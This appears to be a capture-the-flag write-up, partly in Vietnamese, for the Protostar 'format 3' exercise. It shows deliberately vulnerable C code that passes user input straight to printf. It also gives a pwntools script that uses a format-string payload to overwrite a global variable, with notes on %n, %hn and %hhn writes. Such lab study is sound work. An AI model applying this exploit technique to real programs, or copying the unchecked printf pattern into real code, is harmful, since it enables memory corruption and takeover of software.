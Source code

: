 # format string 3

## source code 

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

## solution

### exploit with pwntool

```python
#!python3
from pwn import *
# Assume a process that reads a string
# and gives this string as the first argument
# of a printf() call
# It do this indefinitely


# Function called in order to send a payload
def send_payload(payload):
    p = process('../../protostar/format3')
    p.sendline(payload)
    log.info("payload = %s" % repr(payload))
    a = p.recvall()
    log.info("output = %s" % repr(a))
    p.close()
    return a

# Create a FmtStr object and give to him the function
format_string = FmtStr(execute_fmt=send_payload)
offset = format_string.offset
log.info("offset = %d" % offset)
write = {
    0x80496f4: 0x01025544
}
#33 = size của payload tìm ra offset
payload = fmtstr_payload(offset, write)
payload = payload + b'a' * (33 - len(payload))
log.info("payload = %s" % repr(payload))
p = process('../../protostar/format3')
p.sendline(payload)

print(p.recvall())
```

![1](1.png)

### %n

tương tự vs fmt 2 tìm được offset ở vị trí thứ 12 và độ dài của payload không ảnh hưởng đến vị trí offset

![2](2.png)

Với các vi xử lý bây giờ thì việc in 16930116 - 4 = 16930112 ký tự cũng ko tốn bao nhiêu thời gian cả. Mất khoảng vài giây.

### %hn

![3](3.png)

### %hhn

![5](5.png)